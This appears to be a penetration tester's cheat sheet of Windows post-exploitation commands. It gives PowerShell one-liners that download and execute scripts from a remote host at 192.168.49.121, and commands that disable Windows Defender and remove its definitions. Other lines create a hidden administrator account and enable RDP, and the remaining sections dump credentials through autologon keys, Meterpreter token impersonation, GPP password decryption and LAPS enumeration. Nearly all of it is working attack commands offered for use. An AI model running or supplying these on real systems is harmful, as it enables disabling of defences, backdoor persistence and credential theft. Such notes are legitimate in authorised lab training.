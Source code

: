     //Disable Defender:
        (New-Object System.Net.WebClient).DownloadString('http://192.168.49.121/DisableDefender.ps1') | IEX
            # Remove Windows Defender definitions
            & "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
            # Disable Windows Defender real-time monitoring
            Set-MpPreference -DisableRealtimeMonitoring $true
        //Or: c:\PROGRA~1\WINDOW~1\MpCmdRun.exe -RemoveDefinitions -All

    //Create New User & Enable RDP:
        (New-Object System.Net.WebClient).DownloadString('http://192.168.49.121/CreateAdmin.ps1') | IEX
            # Create new administrator
            net user bob abc123! /add
            net localgroup administrators bob /add
            # Enable RDP if it's currently disabled
            $RDP = Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections"
            if ($RDP.fDenyTSConnections -eq 1) {
                Write-Output "Enabling Remote Desktop..."
                Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0
                netsh advfirewall firewall set rule group='remote desktop' new enable=Yes
                Write-Output "Remote Desktop is now enabled."
            } else {
                Write-Output "Remote Desktop is already enabled."
            }
    
### Dump Credentials

    Autologon Key:  reg.exe query "HKLM\software\microsoft\windows nt\currentversion\winlogon"

    Check for Tokens:
        //Meterpreter:
            load incognito / use incognito
            help incognito
            list_tokens -u
            impersonate_token corp1\\admin
            drop_token
        //Works if a domain user is logged in; otherwise you can either...
            -Dump NTLM hash from LSASS (may require disabling LSA)
            -Migrate into the user's process (after getting backup SYSTEM shell first)

    Check for GPP Files:
        IEX(New-Object Net.Webclient).DownloadString('http://192.168.49.121/Get-GPPPassword.ps1')
        //Metasploit:  post/windows/gather/credentials/gpp
        //Decrypt a cpassword:  gpp-decrypt <cpassword>

    Check for LAPS Creds:
        //Metasploit:  use post/windows/gather/credentials/enum_laps
        //IEX(New-Object Net.Webclient).DownloadString('http://192.168.49.121/LAPSToolkit.ps1')
            //Import-Module .\LAPSToolkit.ps1
            Get-LAPSComputers               //might show blank pw if not allowed
            Find-AdmPwdExtendedRights
            Find-LAPSDelegatedGroups        //see what groups are allowed to view it
                //Check group members w/ PowerView.ps1:  Get-NetGroupMember -Identity "LAPS Password Readers" -Recurse
                    ***target these users!
